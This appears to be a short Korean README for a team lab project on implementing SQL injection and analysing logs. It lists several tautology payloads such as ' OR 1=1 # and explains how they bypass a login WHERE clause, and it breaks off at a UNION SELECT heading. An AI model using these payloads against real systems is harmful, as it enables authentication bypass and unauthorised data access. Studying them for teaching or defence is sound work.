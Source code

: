##  SQL Injection 구현 및 log 분석
SQL injection: 주민서, 이종학

log 분석: 김현서, 허남정, 오성택

---
###  1. 조건문을 이용한 SQL Injection
이 유형의 payload는 WHERE절의 조건을 항상 참으로 만들어 조건을 우회하는 방법 입니다.
- ' OR 1=1 #
- ' OR TRUE #
- ' OR '1'='1' #
- ' OR '1'='1' LIMIT 1 #
- ' OR TRUE LIMIT 1 #
- ' OR 1=1 LIMIT 5 #
이런 payload는 다음과 같은 쿼리가 있다고 가정했을 때 사용합니다.

SELECT * FROM table WHERE id = 'sql_injection' AND pw = 'sql_injection’

WHERE절의 조건이 항상 참이 되므로 모든 행이 반환됩니다.

---
### 2. UNION SELECT
